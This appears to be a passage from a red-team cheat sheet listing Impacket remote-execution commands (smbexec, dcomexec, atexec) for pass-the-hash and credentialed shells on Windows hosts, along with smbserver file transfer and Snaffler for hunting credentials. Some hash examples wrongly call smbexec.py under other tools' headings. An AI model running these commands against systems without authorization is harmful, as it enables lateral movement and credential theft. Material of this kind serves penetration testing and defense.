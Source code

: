 example using a hash (the hash is an example)
```
smbexec.py -hashes aad3b435b51404eeaad3b435b51404ee:e21bf3dfb1cb61fa095b40fb083149cf <user>@<ip$>
```

### dcomexec-py
Dcomexec.py method uses various DCOM endpoints such as MMC20.Application, ShellWindows or ShellBrowserWindow objects to spawn a semi-interactive shell on the remote system.

Using this method requires communication on multiple network ports (tcp/135, tcp/445) and internally utilizes the DCOM subsystem of the remote Windows system using a dynamically allocated high port such as tcp/49751

This generally makes this method somewhat more noisy that the other methods.

basic example usage:
```
dcomexec.py <domain>/<user>:<password>@<ip$>
```
```
https://vk9-sec.com/impacket-remote-code-execution-rce-on-windows-from-linux/
```

example using a hash (the hash is an example)
```
smbexec.py -hashes aad3b435b51404eeaad3b435b51404ee:e21bf3dfb1cb61fa095b40fb083149cf <user>@<ip$>
```

### atexec-py
atexec.py uses the Task Scheduler service (Atsvc) on the remote Windows system to execute a supplied command. All network communication takes place over port tcp/445.

basic example usage:
```
atexec.py <domain>/<user>:<password>@<ip$>
```
example using a hash (the hash is an example)
```
smbexec.py -hashes aad3b435b51404eeaad3b435b51404ee:e21bf3dfb1cb61fa095b40fb083149cf <user>@<ip$> systeminfo
```


### smbserver-py
Simple SMB server execution for interaction with Windows hosts. Easy way to transfer files within a network.

```
https://github.com/SecureAuthCorp/impacket/blob/master/examples/smbserver.py
```
```
https://vk9-sec.com/impacket-remote-code-execution-rce-on-windows-from-linux/
```



### Snaffler
Useful for finding information (such as credentials) in Active Directory on computers with accessible file shares.
